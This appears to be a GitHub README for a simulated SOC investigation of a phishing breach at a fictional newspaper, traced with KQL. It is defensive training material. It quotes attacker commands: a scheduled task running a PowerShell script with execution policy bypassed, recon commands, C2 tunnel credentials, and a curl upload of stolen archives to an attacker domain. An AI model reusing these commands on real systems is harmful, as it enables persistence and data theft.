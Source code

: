 # 🛡️ Valdorian Times Cybersecurity Breach: A Real-World SOC Investigation 🧠

🎥 **[Watch Full Investigation Video (kql.mp4)](https://drive.google.com/file/d/1b-IJ2acGuVvpFf12_vAxgXWQosKQmrU3/view?usp=sharing)**  
> A realistic SOC simulation built with KQL, process analysis, phishing forensics, and file exfiltration tracking.

---

## 🚀 Overview

🔍 **Attack Type**: Spear-phishing → Credential Abuse → Scheduled Tasks → Document Forgery → Data Exfiltration  
💻 **Tech Used**: Microsoft Sentinel, KQL, PowerShell, Passive DNS  
🎯 **Goal**: Find out how attackers used fake editorial documents and stolen intern accounts to inject misinformation and steal data.

---

## 📊 Phase 1: Initial Recon & Activity

### 🔍 Lois Lane
- IP Address: `10.10.0.22`
- Visited: **62 unique websites**

### 🌐 Passive DNS Search
- Domains containing `"hire"`: **6**
- `jobhire.org` resolved to: `191.7.248.112`

### 🧑 Mary Activity
- Unique Websites: **58**
- Authentication Attempts: **70**

---

## 📩 Phase 2: Suspicious Email to Clark Kent

- Email received from: **ronnie_mclovin@valdoriantimes.news**
- Subject: `URGENT: Final OpEd Draft Edits`
- Attachment: `OpEdFinal_to_print.docx`
- Sent on: `2024-01-31T11:11:12.000Z`
- Clark received **21 total emails**

Ronnie claims she never sent this email. Compromise suspected.

---

## 🕵️‍♀️ Phase 3: Sonia Gose - The Senior Editor's Lead

- IP: `10.10.0.3`
- Host: `UL0M-MACHINE`
- Received phishing email from: `newspaper_jobs@gmail.com`
- Timestamp: `2024-01-05T09:42:05.000Z`
- Link: `https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx`

### 📥 File Details
- Downloaded: `C:\Users\sogose\Downloads\Valdorian_Times_Editorial_Offer_Letter.docx`
- SHA256: `60b854332e393a6a2f0015383969c3ac705126a6b7829b762057a3994967a61f`

### 🪲 Malware Drop
- Dropped file: `hacktivist_manifesto.ps1`
- Created: `2024-01-05T10:24:32.000Z`

### 🛠 Scheduled Task
```bash
schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
```
### 🧪 Commands Executed by the Attacker

After establishing a tunnel using `plink.exe`, the attacker executed the following commands on the compromised machine to perform network discovery and system enumeration:

```bash
whoami           # Identify the currently logged-in user
ipconfig         # Display IP configuration details
arp -a           # View the ARP cache to identify nearby network devices
tasklist /svc    # List running tasks along with associated services
net view         # Discover shared resources on the local network
```
---

## 💻 Phase 4: Ronnie McLovin - Intern Breach

- **IP**: `10.10.0.19`  
- **Host**: `A37A-DESKTOP`  
- **Received Email From**: `valdorias_best_recruiter@gmail.com`  
- **Timestamp**: `2024-01-10T08:48:16.000Z`  
- **Link Domain**: `promotionrecruit.org`

### 📥 File Details

- **Downloaded File**: `Editorial_J0b_Openings_2024.docx`
- **Dropped Payload**: `hacktivist_manifesto.ps1`  
- **Drop Time**: `2024-01-10T08:55:51.000Z`

### 🧠 Attacker Action

- **plink.exe Executed**  
  - **C2 IP**: `168.57.191.100`  
  - **Credentials Used**:  
    - Username: `$had0w`  
    - Password: `thruthW!llS3tUfree`

- **Scheduled Task Created**  
  - **Time**: `2024-01-10T10:26:32.000Z`  

- **Recon Commands Executed**:
```bash
whoami
ipconfig
arp -a
tasklist /svc
net view
```
---
## 📄 Phase 5: fakestory.docx → OpEdFinal_to_print.docx

- **Domain**: `hire-recruit.org`  
- **Downloaded File**: `fakestory.docx`  
- **SHA256**: `5f8a7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f`  
- **Created On**: `2024-01-31T09:47:51.000Z`

### ➡️ Renamed & Moved
```plaintext
C:\Users\romclovin\Documents\OpEdFinal_to_print.docx
```
Timestamp: 2024-01-31T10:26:20.000Z

📧 Sent via Email to Clark Kent: 2024-01-31T11:11:12.000Z
⏱️ Elapsed Time: 44 minutes

---

## 📦 Phase 6: Data Theft & Exfiltration

### 🗃️ Files Created by the Attacker
- `DankMemes.7z`
- `MyStolenDataFromDocuments.7z`
- `MyStolenDataFromDesktop.7z`

🔐 **Password for All Archives**: `thruthW!llS3tUfree`

### 📤 Exfiltration Command
```bash
curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php

```
🌐 Destination Domain: hirejob.com
---
## 📂 Repository Structure

```bash
Valdorian-Incident-Investigation/
├── README.md                      # 📝 Project summary and case details
├── kql.mp4                        # 🎥 Full investigation video
├── data/
│   ├── IOC_list.txt               # 📄 IPs, hashes, domains
│   └── investigation_logs.txt     # 🕵️ Full attack timeline & investigation steps
├── assets/
│   └── phishing_flowchart.png     # 🧭 (Optional) Visual representation of phishing chain
```
---
## 🧠 Learnings

```bash
 KQL in action: Real queries across web, DNS, authentication & process logs  
 Tracking PowerShell scripts and scheduled tasks
 Detecting spear-phishing and content spoofing 
 Building incident timelines from metadata
 Reconstructing the attack chain from internal telemetry
 ```
---------------------------------------------------------------------------------------------------------------
